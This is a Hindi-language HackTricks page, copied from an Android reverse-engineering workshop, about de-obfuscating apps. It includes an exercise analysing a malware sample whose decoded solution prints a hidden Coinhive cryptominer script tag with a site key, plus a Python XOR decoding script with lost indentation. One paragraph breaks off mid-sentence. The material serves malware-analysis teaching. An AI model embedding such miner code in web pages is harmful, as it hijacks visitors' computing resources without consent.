 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके।**

</details>


**[**https://maddiestone.github.io/AndroidAppRE/obfuscation.html**](https://maddiestone.github.io/AndroidAppRE/obfuscation.html)** से कॉपी किया गया (वहां आप समाधान पा सकते हैं)**

![Logo](https://maddiestone.github.io/AndroidAppRE/images/pinkandroid.png)

कई बार ऐसा होता है कि आपके पास उलट-पुलट ऐप्लिकेशन होती है जो आपके द्वारा रिवर्स इंजीनियरिंग की गई उदाहरणों की तुलना में सीधी नहीं होती है। डेवलपर अपने ऐप के व्यवहार और/या अंमल को छिपाने के लिए एक या अधिक उलट-पुलट करने की तकनीक का अमल करेगा। यह निष्पक्ष और दुष्टिपूर्ण दोनों कारणों के लिए हो सकता है।

उलट-पुलट करने के बारे में याद रखने की कुंजी यह है कि यदि आप इसे उलट-पुलट करना चाहते हैं, तो आप कर सकते हैं। महत्वपूर्ण निर्णय यह नहीं है कि क्या आप कर सकते हैं, बल्कि यह है कि क्या उलट-पुलट करने के लिए संसाधनों का उपयोग करना योग्य है या नहीं।

आप हमेशा कुछ भी उलट-पुलट कर सकते हैं क्योंकि अंततः सीपीयू को किसी न किसी समय अनउलट-पुलट कोड देखना होगा ताकि इसे चलाने के लिए।

## उलट-पुलट करने का तरीका <a href="how-to-de-obfuscate" id="how-to-de-obfuscate"></a>

ऐप्लिकेशन को उलट-पुलट करने के लिए आप कैसे चुनते हैं, यह उलट-पुलट करने की विधि पर निर्भर करेगा, लेकिन यहां कुछ सामान्य तकनीकें हैं जो आमतौर पर अच्छी तरह से काम करती हैं। यहां, हम केवल स्थिर उलट-पुलट करने की तकनीकों पर ही चर्चा करेंगे क्योंकि यह कार्यशाला केवल स्थिर विश्लेषण/रिवर्सिंग को कवर करती है। हालांकि, ध्यान दें कि ऐप्लिकेशन को चलाने और गतिशील विश्लेषण करने का एक और बढ़िया तरीका हो सकता है उलट-पुलट करने के लिए।

डेक्स बाइटकोड (जावा) में उलट-पुलट करने के लिए, स्थिर उलट-पुलट करने का सबसे आसान तरीका ऐप्लिकेशन में उलट-पुलट करने के तरीकों की पहचान करना है और उनके डीकंपाइलेशन को एक जावा फ़ाइल में कॉपी करना है, जिसे आप फिर उलट-पुलट फ़ाइल, स्ट्रिंग, कोड आदि पर चलाते हैं।

जावा और नेटिव कोड के लिए एक और समाधान है, उलट-पुलट करने की एल्गोरिदम को पायथन या किसी अन्य स्क्रिप्टिंग भाषा में अनुवाद करना, जिसमें आप सबसे अधिक सुविधाजनक हैं। मैं "अनुवाद करना" कहता हूँ क्योंकि यह ध्यान देने योग्य है कि आपको हमेशा उलट-पुलट करने की एल्गोरिदम को \*समझने\* की आवश्यकता नहीं होती है, आपको इसे चलाने का एक तरी
## अभ्यास 7 - स्ट्रिंग डीओबफस्केशन <a href="exercise-7---string-deobfuscation" id="exercise-7---string-deobfuscation"></a>

इस अभ्यास में, हम एक ऐप्लिकेशन का विश्लेषण करने के लिए स्ट्रिंग डीओबफस्केशन का अभ्यास करेंगे। अभ्यास के लिए हम VM में `~/samples/ClashOfLights.apk` पर उपलब्ध नमूना का उपयोग करेंगे। इस नमूने का SHA256 डाइजेस्ट c403d2dcee37f80b6d51ebada18c409a9eae45416fe84cd0c1ea1d9897eae4e5 है।

### लक्ष्य <a href="goals" id="goals"></a>

संकेतों को पहचानने और उन्हें डीओबफस्केट करने के लिए एक समाधान विकसित करना।

### अभ्यास संदर्भ <a href="exercise-context" id="exercise-context"></a>

आप एक मैलवेयर विश्लेषक हैं जो इस ऐप्लिकेशन की समीक्षा कर रहे हैं ताकि आप यह निर्धारित कर सकें कि क्या यह मैलवेयर है या नहीं। आप एक ऑबफस्केटेड जावास्क्रिप्ट स्ट्रिंग के साथ सामने आते हैं जो लोड हो रही है और इसे डीओबफस्केट करने के लिए आपको यह निर्धारित करना होगा कि क्या ऐप्लिकेशन खतरनाक है या नहीं। आप ऐप्लिकेशन को डायनामिक रूप से नहीं चला सकते हैं और स्टेटिक रूप से जावास्क्रिप्ट क्या है यह निर्धारित करने की आवश्यकता होती है।

### निर्देश <a href="instructions" id="instructions"></a>

1. डीओबफस्केट करने के लिए आपको स्ट्रिंग ढूंढ़ना होगा
2. उसे डीओबफस्केट करने वाली रूटीन की पहचान करें।
3. स्ट्रिंग को डीओबफस्केट करने के लिए आप कैसे समाधान लिखना चाहेंगे उसे निर्धारित करें।
4. यह करें :)

### समाधान <a href="solution" id="solution"></a>

डीओबफस्केट किया गया स्ट्रिंग है:
```
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
मैंने इसे डी-ऑबफस्केट करने के लिए लिखा हुआ Python स्क्रिप्ट है:
```
enc_str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

length = len(enc_str)
count = 0
dec_str = [0] * (length/2)
while (count < length):
dec_str[count/2] = (int(enc_str[count], 16) << 4) + int(enc_str[count + 1], 16) & 0xFF
count += 2
print dec_str


key = [75, 67, 81, 82, 49, 57, 84, 90]
enc_str = dec_str
count = 0
length = len(enc_str)
while (count < length):
dec_str[count] = chr(enc_str[count] ^ key[count % len(key)])
count += 1
print ''.join(dec_str)
```
## और उदाहरण <a href="more-examples" id="more-examples"></a>

मैंने कुछ टॉक्स किए हैं जिनमें एंड्रॉइड ऐप्स को डी-ऑबफस्केट करने के विभिन्न ऑबफस्केशन मेकेनिज़म को शामिल किया गया है। इन टॉक्स में, मैं उन्नत ऑबफस्केशन तकनीकों, उन्हें डी-ऑबफस्केट करने के लिए मेरी समाधान, और जब मैंने डी-ऑबफस्केट करने का निर्णय लेने के लिए विचार किए थे तब मैंने कैसे चुनाव किए थे, इन सबके बारे में चर्चा करता हूँ।

* BlackHat USA 2018: "Unpacking the Packed Unpacker: Reverse Engineering an Android Anti-Analysis Library" \[[वीडियो](https://www.youtube.com/watch?v=s0Tqi7fuOSU)]
* इस टॉक में, मैं एक ऐसी एंड्रॉइड एप्लिकेशन द्वारा उपयोग की जाने वाली सबसे जटिल एंटी-विश्लेषण प्राकृतिक पुस्तकालय का पुनर्जनन करने के बारे में चर्चा करता हूँ। इसमें मुख्य रूप से प्राकृतिक कोड में ऑबफस्केशन तकनीकों का वर्णन किया गया है।
* REcon 2019: "The Path to the Payload: Android Edition" \[[वीडियो](https://recon.cx/media-archive/2019/Session.005.Maddie_Stone.The_path_to_the_payload_Android_Edition-J3ZnNl2GYjEfa.mp4)]
* इस टॉक में, एक एंड्रॉइड बॉटनेट द्वारा उपयोग की जाने वाली एक श्रृंखला के ऑबफस्केशन तकनीकों का वर्णन किया गया है, जो केवल जावा कोड में होती है, जिसका उपयोग इसके व्यवहार को छिपाने के लिए किया जाता है।


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करने का उपयोग करना चाहते हैं? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>
